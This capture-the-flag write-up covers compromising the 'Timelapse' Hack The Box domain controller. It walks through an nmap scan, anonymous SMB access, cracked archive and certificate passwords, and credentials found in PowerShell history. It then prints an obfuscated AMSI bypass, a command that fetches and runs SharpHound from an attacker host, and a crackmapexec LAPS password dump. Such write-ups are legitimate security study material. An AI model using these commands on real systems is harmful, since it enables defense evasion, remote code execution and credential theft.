

## Enumeration

### Port Scan

```
# Nmap 7.92 scan initiated Mon Apr  4 13:02:28 2022 as: nmap -sC -sV -sS -vvv -oN nmap.txt -p- timelapse.htb
Nmap scan report for timelapse.htb (10.129.128.174)
Host is up, received echo-reply ttl 127 (0.30s latency).
Scanned at 2022-04-04 13:02:29 IST for 560s
Not shown: 65519 filtered tcp ports (no-response)
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-04-04 15:40:06Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?      syn-ack ttl 127
5986/tcp  open  ssl/http      syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2022-04-04T15:41:40+00:00; +7h59m58s from scanner time.
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Issuer: commonName=dc01.timelapse.htb
<SNIPED>
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49698/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
58823/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

<SNIPED>
```

Found no web application, we can see from the nmap scan that the domain name is timelapse.htb and probably this is dc0.

Let’s try to figure out what we can do.

After some time looking at nmap scan, I was wondering why not SMB anonymous. Lets try it 

## SMB ANONYMOUS



Let’s enumerate them


Let’s download them.


winrm_backup.zip was password encrypted, after doing password cracking using hashcat and JTR to recover encryption cipher. We find `supremelegacy`

The file found inside the archive is .pfx file which can be used to authenticate with winrm or PS-remoting

When I ran strings command against the pfx file, I find the username and email as the following:

```
legacyy@timelapse.htb
Legacyy0
```

## Foothold

It seems we can extract keys from pfx file like this way shown in [article](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file).  Now to follow in accordance to the article, by running first command I’m asked password for importing. So let’s crack hash of pfx file and lets find the password using jtr.


`thuglegacy` is the password.


Found the following stuff in PS-History file

```powershell
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

### AMSI BYPASS

The following payload bypassed AMSI, allowing us to download and import module BloodHound.

```powershell
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)

IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.8/SharpHound.ps1')
```

## Privilege Escalation

Now we have found svc_deploy credentials, who is part of LAPS_READER group. I can read password of Admin to Privilege escalate.

I used the following command to get LAPS password

```powershell
crackmapexec ldap 10.129.128.174 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' –kdcHost 10.129.128.174 -M laps
```


Flag for root is found in TRX desktop